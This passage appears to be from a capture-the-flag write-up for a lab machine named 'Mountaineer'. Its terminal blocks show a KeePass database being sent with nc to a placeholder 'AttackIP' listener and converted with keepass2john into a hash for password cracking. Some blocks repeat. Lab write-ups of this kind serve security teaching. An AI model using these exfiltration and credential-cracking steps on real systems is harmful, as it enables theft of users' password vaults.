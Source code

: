 
```bash
www-data@mountaineer:/home$ ls -la /home/lhotse/Backup.kdbx
-rwxrwxrwx 1 lhotse lhotse 2302 Apr  6  2024 /home/lhotse/Backup.kdbx
www-data@mountaineer:/home$ nc AttackIP 1337 < /home/lhotse/Backup.kdbx
```


```bash
:~/Mountaineer# nc -nlvp 1337 > Backup.kdbx
Listening on 0.0.0.0 1337
Connection received on TargetIP 56782
```

```bash
:~/Mountaineer# git clone https://github.com/ivanmrsulja/keepass2john.git
Cloning into 'keepass2john'...
remote: Enumerating objects: 27, done.
remote: Counting objects: 100% (27/27), done.
remote: Compressing objects: 100% (21/21), done.
remote: Total 27 (delta 11), reused 14 (delta 6), pack-reused 0 (from 0)
Unpacking objects: 100% (27/27), 11.21 KiB | 1.02 MiB/s, done.
root@ip-10-10-181-135:~/Mountaineer# python keepass2john.py Backup.kdbx > hash
/usr/bin/python: can't open file 'keepass2john.py': [Errno 2] No such file or directory
root@ip-10-10-181-135:~/Mountaineer# ls
Backup.kdbx  exploit.py  hash  keepass2john  reports
root@ip-10-10-181-135:~/Mountaineer# cd keepass2john
root@ip-10-10-181-135:~/Mountaineer/keepass2john# ls
keepass2john.pl  keepass2john.py  LICENSE  README.md
root@ip-10-10-181-135:~/Mountaineer/keepass2john# python keepass2john.py /root/Mountaineer/Backup.kdbx > hash
  File "keepass2john.py", line 9
    def stringify_hex(hex_bytes: bytes):
                               ^
SyntaxError: invalid syntax
root@ip-10-10-181-135:~/Mountaineer/keepass2john# python3 keepass2john.py /root/Mountaineer/Backup.kdbx > hash
root@ip-10-10-181-135:~/Mountaineer/keepass2john# ls
hash  keepass2john.pl  keepass2john.py  LICENSE  README.md
root@ip-10-10-181-135:~/Mountaineer/keepass2john# 
```

```bash
:~/Mountaineer# git clone https://github.com/ivanmrsulja/keepass2john.git
Cloning into 'keepass2john'...
remote: Enumerating objects: 27, done.
remote: Counting objects: 100% (27/27), done.
remote: Compressing objects: 100% (21/21), done.
remote: Total 27 (delta 11), reused 14 (delta 6), pack-reused 0 (from 0)
Unpacking objects: 100% (27/27), 11.21 KiB | 1.02 MiB/s, done.
```


```bash
:~/Mountaineer# python keepass2john.py Backup.kdbx > hash
/usr/bin/python: can't open file 'keepass2john.py': [Errno 2] No such file or directory
```

